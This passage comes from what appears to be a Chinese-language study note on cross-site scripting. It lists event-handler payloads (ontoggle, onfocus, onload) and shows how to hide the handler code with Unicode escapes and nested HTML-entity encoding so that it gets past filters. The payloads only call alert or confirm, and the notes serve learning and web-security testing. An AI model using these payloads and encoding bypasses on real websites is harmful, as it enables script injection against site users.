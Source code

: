 ### 9. "偏远"payload

```
1. <Details/Open/OnToggle=alert(1)>  <!-- 成功 -->
2. <input/autofocus/onfocus=alert`/xss/`>
3. <body onload="alert('页面加载完成')">
```

## 五、实战学习

### 1. noscript标签

```
<noscript>
  <p>Your browser does not support JavaScript or it is disabled.</p>
</noscript>
```

如果浏览器中关闭了 JavaScript，上面这段代码就会显示出 <p> 中的提示信息。否则，这段内容会被忽略。

### 2. unicode编码 

也叫js编码，为什么叫js编码呢，因为这个编码的内容只有js解析器才能解析，解析之后再执行的，**并且解析的结果不会反应在前端！而是之间拿去执行了，而不是显示！**

什么地方会自动解析js编码呢：想想哪里会执行js就知道了

##### 位置：

1. 属性方法

   ```
   <img src=x onerror=\u0063\u006f\u006e\u0066\u0069\u0072\u006d(1)>
   ```

   注意：方法最后的()不能编码！

##### 联动html编码：

之前了解了，html编码中，属性值的整个内容，以及innerhtml都会自动html解码，因为是html先解析的，然后再js执行，所以可以先js编码，然后html编码：

```
<img src=x onerror=&#x005c;&#x0075;&#x0030;&#x0030;&#x0036;&#x0033;&#x005c;&#x0075;&#x0030;&#x0030;&#x0036;&#x0066;&#x005c;&#x0075;&#x0030;&#x0030;&#x0036;&#x0065;&#x005c;&#x0075;&#x0030;&#x0030;&#x0036;&#x0036;&#x005c;&#x0075;&#x0030;&#x0030;&#x0036;&#x0039;&#x005c;&#x0075;&#x0030;&#x0030;&#x0037;&#x0032;&#x005c;&#x0075;&#x0030;&#x0030;&#x0036;&#x0064;&#x0028;&#x0031;&#x0029;>
```

### 3. 支持url编码的content-type/MIME

- `multipart/form-data` 不支持

  ```
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBRjiOdAIraOGFuWt
  
  ------WebKitFormBoundaryBRjiOdAIraOGFuWt
  Content-Disposition: form-data; name="first_name"
  
  aaaaaaaaaa
  ------WebKitFormBoundaryBRjiOdAIraOGFuWt
  Content-Disposition: form-data; name="last_name"
  
  aaaaaaaaaaa
  ------WebKitFormBoundaryBRjiOdAIraOGFuWt
  Content-Disposition: form-data; name="email"
  ```
